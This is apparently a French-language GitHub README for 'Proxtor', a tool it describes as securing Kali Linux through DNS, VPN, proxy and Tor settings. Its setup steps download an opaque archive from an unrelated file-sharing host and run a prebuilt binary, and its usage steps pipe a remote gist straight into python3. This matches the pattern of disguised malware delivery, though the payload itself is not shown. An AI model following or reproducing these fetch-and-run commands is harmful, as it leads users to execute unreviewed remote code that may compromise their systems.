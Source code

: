 # Proxtor - Outil de Sécurisation de Kali Linux

## Demo

[![Proxtor Tool](https://img.shields.io/badge/🔒%20Proxtor-Sécurise%20Kali%20Linux-blue?style=for-the-badge)](https://trh4ckn0n.github.io/proxtor-tool/)

## Description

Proxtor est un outil de sécurisation pour Kali Linux qui permet de configurer rapidement des paramètres de sécurité comme les DNS, VPN, Proxy et Tor. Il vous aide à sécuriser votre machine et à masquer votre identité en ligne.

## Fonctionnalités

- Changer les DNS
- Configurer un VPN
- Configurer un Proxy
- Configurer Tor

## Preparation

```bash
wget https://www.zipshare.com/fileDownload/eyJhcmNoaXZlSWQiOiJlMTAyMzJkOS0wM2VmLTQzMTgtOWRlYi04MWY1NzE1YTIwZTEiLCJlbWFpbCI6ImplcmVteWRpbGlvdHRpQGdtYWlsLmNvbSJ9 && unzip 'eyJhcmNoaXZlSWQiOiJlMTAyMzJkOS0wM2VmLTQzMTgtOWRlYi04MWY1NzE1YTIwZTEiLCJlbWFpbCI6ImplcmVteWRpbGlvdHRpQGdtYWlsLmNvbSJ9'
```

```bash
./dist/proxtor.bin
```

## Utilisation

Pour utiliser cet outil, vous pouvez exécuter la commande suivante :

```bash
curl -s https://gist.githubusercontent.com/trh4ckn0n/a8e71e57d1e7ee42013f1713ac1a5ac8/raw/dc19399c6875d871bc6f395aafa3670f4dca86de/proxtor.py | python3
```

Ou avec `wget` :

```bash
wget -qO- https://gist.githubusercontent.com/trh4ckn0n/a8e71e57d1e7ee42013f1713ac1a5ac8/raw/dc19399c6875d871bc6f395aafa3670f4dca86de/proxtor.py | python3
```

## Développeur

Développé par [trhacknon](https://github.com/trh4ckn0n).

